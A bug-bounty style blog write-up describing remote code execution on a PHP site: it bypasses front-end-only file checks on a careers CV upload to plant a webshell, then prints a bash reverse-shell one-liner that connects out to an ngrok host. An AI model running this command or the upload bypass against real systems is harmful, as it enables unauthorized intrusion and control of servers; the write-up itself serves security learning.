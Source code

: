 ```yaml
---
title: "Remote Code Execution via File Upload"
date: 2021-04-07 12:00
---
```


Obtain Remote Code Execution due to Unrestricted File Upload.

## Introduction
Remote Code Execution (RCE) is a critical vulnerability that allows unauthorized individuals to access and modify a computer or server from a remote location. This capability enables attackers to run arbitrary malicious software, also known as malware, on the targeted system.

## Identifying the Target
During the reconnaissance phase, I utilized Google dorks to find a target that had a responsible disclosure program. For the purpose of this article, let's refer to the target website as abc.com. Further investigation revealed that the target company owned seven subdomains, all integrated with the parent domain abc.com and offering various functionalities.

## Exploiting PHP-Based Website
Since the target website was predominantly built using PHP, I focused on finding a vulnerability that would allow me to upload a PHP file and gain a reverse shell. Interestingly, I discovered that the website had a career page where applicants could upload their resumes in PDF format.

### Directory Brute-Forcing
To begin, I conducted a directory brute-forcing operation using the dirsearch tool. This enabled me to identify directories on the website and gain a better understanding of its structure.

![Directory Brute-Forcing](/assets/images/blogs/RCE1/1.webp)

### Discovering Uploaded Files
During my investigation, I came across an "uploads" folder that contained all the documents uploaded by individuals applying for jobs through the career page.

![Index of Uploaded Files](/assets/images/blogs/RCE1/2.webp)

### Exploiting the CV Upload Functionality
I proceeded to the career page URL (https://www.abc.com/careers.php) to examine the CV upload functionality. However, I found that the application only performed file extension validation at the front end, leaving room for potential exploitation.

![Frontend File Extension Validation](/assets/images/blogs/RCE1/3.webp)

### Uploading the PHP Webshell
Taking advantage of the lax file extension validation, I downloaded a PHP webshell and successfully uploaded it.

![PHP Webshell Upload](/assets/images/blogs/RCE1/4.webp)

### Activating the Webshell
To trigger the PHP webshell, I accessed the location where the shell was uploaded.

![Webshell Activation](/assets/images/blogs/RCE1/6.webp)

### Expanding Control with Reverse Shell
At this point, the webshell was functioning correctly. To establish a reverse shell, I either uploaded a reverse shell or used the following command in the web shell console to access the system via port forwarding using ngrok services.

### PHP Webshell Repository
For reference, you can find the PHP webshell I used in this demonstration on my GitHub repository: [GitHub Repo](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Rev-shell/php_web_shell.php)

## Obtaining a Reverse Shell
To acquire a reverse shell, the following steps were performed:

1. Enabled port forwarding.
2. Listened to the forwarded port using Netcat.

![Port Forwarding Setup with ngrok](/assets/images/blogs/RCE1/7.webp)

With the completion of port forwarding setup, I executed the following command in the webshell input field:

`bash -i >& /dev/tcp/0.tcp.ngrok.io/1000 0>&1`

![Executing Reverse Connection via Bash](/assets/images/blogs/RCE1/8.webp)

As a result, a successful reverse shell connection was established.

![Successful Reverse Shell](/assets/images/blogs/RCE1/9.webp)

## Conclusion
In this article, I demonstrated how an unrestricted file upload vulnerability on a PHP-based website could lead to Remote Code Execution (RCE). By exploiting the website's lax file extension validation, I successfully uploaded a PHP webshell and obtained a reverse shell, ultimately gaining unauthorized access to the system. Thank you for reading.

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).